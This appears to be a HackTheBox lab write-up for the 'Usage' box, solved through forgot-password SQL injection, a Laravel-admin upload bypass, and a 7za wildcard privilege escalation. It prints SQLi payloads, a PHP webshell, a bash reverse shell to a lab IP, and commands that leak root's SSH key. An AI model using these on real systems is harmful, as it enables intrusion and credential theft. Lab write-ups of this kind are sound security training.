










# Usage -- HackTheBox (write-up)

**Difficulty:** Easy
**Box:** Usage (HackTheBox)
**Author:** dkrxhn
**Date:** 2025-09-03

---

## TL;DR

### SQLi on the forgot-password page led to admin hash. Laravel-admin file upload bypass for shell. Privesc via 7za wildcard trick to read root SSH key.
---

## Target info

- Host: `usage.htb` / `admin.usage.htb`
- Services discovered: `22/tcp (ssh)`, `80/tcp (http)`

---

## Enumeration



Found SQL injection on `usage.htb/forget-password`:

- `'` gives an error
- `' or 1=1 limit 1;-- -` succeeds

Used sqlmap to extract the admin password hash (bcrypt), cracked with rockyou:

- `admin:whatever1`

---

## Foothold

Logged into `admin.usage.htb`:



Laravel-admin 1.8.18 file upload vulnerability (CVE-2023-24249).

Created a PHP webshell:

```php
<?php system($_REQUEST['cmd']); ?>
```

Renamed to `dank.php.jpg`:



Upload `dank.php.jpg` > submit > intercept in Burp > change filename from `dank.php.jpg` to `dank.php` > forward requests > refresh page > click administrator top-right > right-click User Image > open image in new tab.





Got reverse shell:

```bash
bash -c 'bash -i >%26 /dev/tcp/10.10.14.172/443 0>%261'
```



---

## Lateral movement

Found password in config:



- `3nc0d3d_pa$$w0rd`

```bash
su xander
```

Password `3nc0d3d_pa$$w0rd` worked.



---

## Privilege escalation

7za wildcard vulnerability -- `sudo usage_management` runs 7za which misinterprets `@` filenames as file lists.

```bash
touch @0xdf
ln -fs /root/.ssh/id_rsa 0xdf
sudo usage_management
```

7za tries to read the symlinked file as a list of filenames, leaking the contents of `/root/.ssh/id_rsa` in error output.





---

## Lessons & takeaways

- Always test forgot-password forms for SQLi
- Laravel-admin file upload can be bypassed by changing the filename in Burp
- 7za's `@` file-list feature can be abused to read arbitrary files when run with elevated privileges
---
